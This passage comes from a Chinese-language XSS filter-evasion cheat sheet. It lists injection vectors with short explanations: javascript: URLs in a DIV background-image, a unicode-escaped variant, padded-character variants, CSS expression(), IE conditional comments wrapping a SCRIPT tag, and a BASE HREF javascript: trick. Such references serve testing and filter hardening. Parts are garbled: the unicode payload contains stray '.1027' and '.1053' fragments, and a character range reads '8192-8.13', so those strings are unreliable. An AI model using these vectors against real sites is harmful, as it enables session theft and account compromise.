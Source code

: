 ```
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
```

* * *

### 使用 unicoded编码xss利用代码的DIV background-image

这是被轻微的修改去混淆 url 参数。他是最早被发现被 Renaud Lifchitz用于攻击hotmail。

```
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
```

* * *

### 附加额外字符的DIV background-image

Rnaske开发了一个XSS fuzzer去探测可以在开括号和javascript之间加入哪些额外字符在 IE和安全模式下的 Netscape 8.1。都是一些十进制的字符，但是你也可以用十六进制来填充。（下面这些编码字符可以被使用：1-32, 34, 39, 160, 8192-8.13, 12288, 65279）

```
<DIV STYLE="background-image: url(&#1;javascript:alert('XSS'))">
```

* * *

### DIV expression

它的一个变体是更加有效的去绕过实际的xss过滤器是在冒号和表达式之间添加换行符。

```
<DIV STYLE="width: expression(alert('XSS'));">
```

* * *

### html条件选择注释块

只能工作在IE5.0 以及更新版或是使用了ie渲染引擎的Netscape 8.1 。 一些网站认为任何包裹在注释中的内容都是安全的，因此并不会被移除。这将允许我们的xss向量。或者系统可能通过添加注释对某些内容去试图无害的渲染它。如我们所见，这有时并不起作用。

```
<!--[if gte IE 4]>
<SCRIPT>alert('XSS');</SCRIPT>
 <![endif]-->
```

* * *

### BASE标签

工作ie或是使用了安全模块的Netscape 8.1，你需要使用 "//" 斜体文本去避免javascript错误。这需要当前网站使用相对路径（例如images/image.jpg）而不是绝对路径。如果路径开始用一个斜杠（例如"/images/image.jpg"），你需要去掉xss向量中的一个斜杠（只有在两个斜杠的情况下才会起到注释作用）

```
<BASE HREF="javascript:alert('XSS');//">
```
